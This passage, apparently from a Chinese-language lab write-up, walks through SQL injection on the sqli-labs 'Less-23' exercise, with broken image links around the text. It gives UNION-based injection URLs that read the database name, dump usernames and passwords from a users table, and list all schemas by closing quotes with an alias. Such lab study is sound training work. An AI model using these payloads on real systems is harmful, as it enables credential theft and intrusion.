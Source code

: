 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607133738158.png" alt="image-20230607133738158" style="zoom: 33%;" />

#### 查看当前数据库

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,database(),3 or '2'='2
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607133833450.png" alt="image-20230607133833450" style="zoom: 33%;" />

#### 爆库

使用UNION + where 的方式完成

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,group_concat(username,':',password),3  from users where '1'='1
```



这里使用别名的方式，起一个别名`'2'`来闭合后面的单引号

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,group_concat(schema_name),3 as '2' from information_schema.schemata group by '2
```
